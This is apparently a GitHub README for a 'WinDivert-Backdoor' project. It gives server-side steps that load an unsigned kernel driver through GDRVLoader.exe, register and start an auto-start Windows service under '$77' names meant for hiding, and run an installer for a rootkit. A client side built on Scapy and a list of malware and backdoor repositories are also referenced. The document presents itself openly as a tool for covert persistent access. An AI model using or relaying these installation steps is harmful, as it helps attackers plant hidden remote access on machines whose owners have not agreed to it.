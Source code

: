 # WinDivert-Backdoor
## Server
1. Install driver with GDRVLoader.exe </br>
`GDRVLoader.exe C:\$77folder\$77kernel.sys` 
3. Install service </br>
`sc create $77service binPath= "C:\$77folder\$77service.exe" start= auto`
5. Start service </br>
`sc start $77service`
6. Install rootkit </br>
`Install.exe`
## Client
1. [Install Scapy](https://scapy.readthedocs.io/en/latest/installation.html)
2. Download client.py script
3. Flourish

## References
[](https://github.com/zer0condition/GDRVLoader)
[](https://github.com/basil00/Divert)
[](https://github.com/cocomelonc/2022-05-09-malware-pers-4/tree/master)
[](https://github.com/r-a303931/pcap-backdoor)
